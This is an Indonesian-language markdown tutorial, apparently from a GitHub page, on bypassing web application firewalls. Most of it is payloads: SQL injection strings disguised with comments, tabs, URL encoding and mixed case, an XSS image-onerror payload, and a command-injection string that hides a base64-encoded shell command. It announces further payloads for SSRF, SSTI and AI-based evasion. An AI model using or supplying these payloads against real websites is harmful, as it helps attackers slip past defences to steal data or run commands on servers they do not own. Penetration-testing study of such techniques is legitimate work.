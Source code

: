 - **Contoh menggunakan komentar SQL:**
  ```sql
  SELECT/*bypass*/username,password FROM users WHERE username='admin'
  ```

- **Contoh menggunakan tab:**
  ```sql
  SELECT	username,password	FROM users WHERE username='admin'
  ```
![17415599865815641054437477719343](https://github.com/user-attachments/assets/4f359a45-ed28-4905-8963-63ae7650bc10)

---

## 🎯 Contoh Payload Awal untuk Bypass WAF

| **Serangan** | **Payload Dasar** | **Payload yang Dimodifikasi** |
|-------------|-----------------|-----------------------------|
| SQLi | `' OR 1=1 --` | `%27%20OR%201%3D1%20--` |
| XSS | `<script>alert(1)</script>` | `<img src=x onerror=alert(1)>` |
| RCE | `; ls -la` | `|$(echo bHMgLWxhCg== | base64 -d)` |

---

## 📌 Kesimpulan Sementara
Bagian pertama ini mencakup **dasar-dasar bypass WAF**, termasuk sejarah, metode deteksi, dan beberapa teknik bypass awal seperti encoding dan case manipulation.  
Bagian selanjutnya akan membahas **bypass WAF tingkat lanjut**, termasuk AI-based bypass, obfuscation yang lebih kompleks, dan payload eksklusif.

🛠️ **Next:** "Payload Bypass SQLi, XSS, RCE, SSRF, SSTI, dan Teknik AI-Based WAF Evasion"  

Bagian ini berisi daftar **payload bypass WAF** yang digunakan dalam berbagai jenis serangan, mulai dari SQL Injection hingga Server-Side Template Injection (SSTI). Setiap payload dilengkapi dengan contoh implementasi.

---

## 🛠️ 1. SQL Injection (SQLi)

**Payload Dasar (Deteksi Awal):**
```sql
' OR 1=1 --
' UNION SELECT NULL,NULL --
```

**Payload Bypass WAF (Encoding & Case Manipulation):**
```sql
%27%20OR%201%3D1%20--
SeLeCt * FrOm users WhErE username='admin' --
' UNION/**/SELECT/**/NULL,NULL --
```
